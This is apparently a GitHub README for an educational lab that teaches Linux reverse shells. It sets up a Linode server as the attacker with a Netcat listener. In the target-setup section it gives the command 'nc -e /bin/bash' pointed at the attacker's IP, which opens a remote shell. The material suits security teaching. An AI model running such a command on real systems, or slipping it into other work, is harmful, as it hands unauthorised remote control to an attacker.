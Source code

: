 <h2><p align="center">Reverse Shells</h2>

<h3><p align="center">*ONLY FOR EDUCATIONAL PURPOSES ONLY*</h3>

<h4><p align="center">Welcome! This repository is your gateway to understanding reverse shells on Linux. If you're new to cybersecurity or curious about remote access methods, you're in the right place. We'll explain reverse shells in simple terms, empowering you to navigate this crucial aspect of digital security with confidence. For this lesson, I will be referring to NetworkChuck's video on how setup a Cloud enviroment for the attacking machine and our target machine. After this lesson, you will understand the importance and reason behind reverse shells. </h4>

[Video](https://www.youtube.com/watch?v=bXCeFPNWjsM&t=267s)
***


<h3>What are Reverse Shell's?</h3>

Reverse shells are a type of shell session where a target machine connects back to an attacker's machine, rather than the other way around. This is typically used in scenario's where the target machine is behind a firewall or NAT and cannot accept incoming connections.

<p align="center">
<img src="https://i.imgur.com/XrJlchM.png" alt="Login"/>
</p>

Here is a Step-by-Step on how it works
1. The **attacker** compromises the **target** machine and injects code that establishes a connection to a remote system controlled by the **attacker**.
2. Once that connection has established, the **attacker** can now gain access thru the shell on the **target** machine. This allows them to execute commands and interact with the system as if it had physical access to it.
3. This connection is typically encrypted to prevent detection and interception by security measures.

In this lab, we'll also explore the use of Netcat for creating reverse shells. Netcat (a hackers swiss army knife), a versatile networking tool, acts like a direct line between computers. Think of it as setting up a secret phone call where the target computer calls back to the attacker's system. This enables hackers to gain remote access and control over the target, just like having a direct line to the computer's command center.

***

<h4><p align="center"><u>Tools you'll need</u></h4>

1. A computer for **target** machine
2. Cloud enviroment for **attacking** machine (*I will be using Linode, if you create an account right now and verify, you will get $100 credit to use*)

<p align="center">
<img src="https://i.imgur.com/mqhC9Sv.png" alt="Login"/>
</p>
   
4. [Virtual Box](https://www.virtualbox.org/wiki/Downloads) (*I will be using KaliLinux*)

<p align="center">
<img src="https://i.imgur.com/O0tsgnK.png" alt="Login"/>
</p>
 
5. Eagerness to learn!

***

<h4><u>Starting with Linode</u></h4>

<i><p align="center">Once you've created your Linode account and received the free $100 credit post-verification, this is how you will set it up.</i>

You will navigate to the top left of the page and look for "Create". Click on the drop down arrow next to it and select "Linode" -> For the distribution, click on "Ubuntu 18.04 LTS" -> Click on the nearest region next to you after that -> click on "Shared CPU" which is under the Linode plan section -> Click on the "Nanode 1GB" option (*Should read with a $5 Monthly charge*) -> After selection, name your Linode and set Root Password -> Then click "Create". 

Once you've setup your Linode, look at the top right underneath the name of the Linode and wait for it to say "Running" with a green circle next to it. This will confirm that your cloud enviroment is now stable and active to run.

<u><h4>Time to Login</h4></u>

*<i><p align="center">Now that we have our Linode setup, its time to login into the enviroment.</i>*

!. Look for your SSH Access and copy it. *(Look at the right side of the top portion of the Linode page and look for Access -> SSH Access)*
2. Open Command Prompt and type in this following command.
```bash
# Command to copy
ssh root@"fill in with your SSH Access"
```
3. Once you've entered the command line and press enter, it will prompt with "Are you sure you want to continue connecting?". Type "yes", then type your Root password. Then VIOLA! you're connected.

*<i><p align="center">Now lets understand NetCat</i>*

<p align="center">
<img src="https://i.imgur.com/X2sDSwc.png" alt="Login"/>
</p>

1. To go ahead and first check if NetCat is installed, type in the command line "nc"
 ```bash
# Command to copy
nc
```
2. Now going forward, since we are using NetCat to reverse shell, we have to make sure both clients both have NetCat installed. In this matter, since both are Linux machines, they both already come with NetCat installed.
3. Now we are going to use this command to see if it is listening.When picking the port, use a port # that is below 1000. L = Listen, N = IP Address Only, V = Verbose, P = Port
 ```bash
# Command to copy
nc -lvnp "port #" -s "Ip address from Linode"
```
Example: nc -lnvp 87 -s 192.168.1.1

4. Now once you've completed that part, it should prompt with a command line that is listening on that IP.

*<i><p align="center">Now let's set up the **target** machine in KaliLinux</i>*

<p align="center">
<img src="https://i.imgur.com/ctVa9B7.jpeg" alt="Login"/>
</p>

1. Open Kali Linux and click on the Terminal on the top right.
2. Type in this command
 ```bash
# Command to copy
nc -e /bin/bash "IP Address of Attacker/Cloud Machine"
```
3. Press enter and go back to Command Prompt Terminal. See what happens.
4. Try out some commands such as
 ```bash
# Command to copy
whoami   
```

 ```bash
# Command to copy
ls  
```

 ```bash
# Command to copy
uname -a  
```
<h3><p align="center">Overview of what we've learned!</h3>

<h4><p align="center">After you've completed this whole tutorial, mess around and see the benefits and powers of reverse shell. As powerful and cool it is, use it RESPONSIBLY. This lesson is for educational purposes and not inteded for malicious purposes. Ethical hacking is an amazing practice and helps you understand how to protect yourself more and more everyday.</h4>

*Remember, to not be charged by Linode:*

--> To remove a Linode from your account, click the Linodes tab, and then select the Remove link next to the Linode you want to remove.

--> To remove extras from your account, click the Linodes tab, select a Linode, click the Extras tab, and then select the Remove link.

--> To remove a NodeBalancer from your account, click the NodeBalancers tab, and then select the Remove link next to the NodeBalancer you want to remove.

--> To remove the Linode Backup Service, go to the Backups tab in your Linode’s Dashboard, and click the Cancel Backups link at the bottom of the page.
